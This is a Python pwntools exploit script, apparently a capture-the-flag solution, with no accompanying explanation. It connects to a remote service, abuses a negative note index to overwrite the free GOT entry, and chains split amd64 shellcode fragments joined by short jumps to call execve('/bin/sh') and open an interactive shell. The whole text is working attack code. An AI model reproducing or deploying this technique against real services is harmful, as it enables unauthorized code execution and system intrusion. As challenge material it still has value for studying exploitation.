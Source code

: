 ```python
from pwn import *
context.arch = 'amd64'

def z(a=''):
	gdb.attach(p,a)
	if a=='':
		raw_input()

p = remote('117.78.43.222',31311)


def addnote(index,size,context):
    p.sendline('1')
    p.sendline(str(index))
    p.sendline(str(size))
    p.sendline(context)

ROPJMP = '\xeb\x19'
shellcodeP1 = '''
push 0x3b
'''
shellcodeP2='''
pop rax
'''
shellcodeP3 = '''
xor rsi,rsi
nop
nop
'''
shellcodeP4 = '''
xor rdx,rdx
nop
nop
'''
shellcodeP5 = '''
syscall 
nop
nop
'''

def getshell():
    payload1 = asm(shellcodeP1).ljust(5,'\x90')
    payload2 = asm(shellcodeP2).ljust(5,'\x90')
    payload3=asm(shellcodeP3)
    payload4=asm(shellcodeP4)
    payload5=asm(shellcodeP5)

    addnote(-17,8,payload1+ROPJMP) #over free got 
    addnote(0,8,payload2+ROPJMP) 
    addnote(1,8,payload3+ROPJMP)
    addnote(2,8,payload4+ROPJMP)
    addnote(3,8,payload5)
    addnote(4,8,'/bin/sh\x00') # execve("/bin/sh")

    p.sendline('4')
    p.recvuntil('index:')
    p.sendline('4')
    p.interactive()

if __name__=="__main__":
    getshell()
```
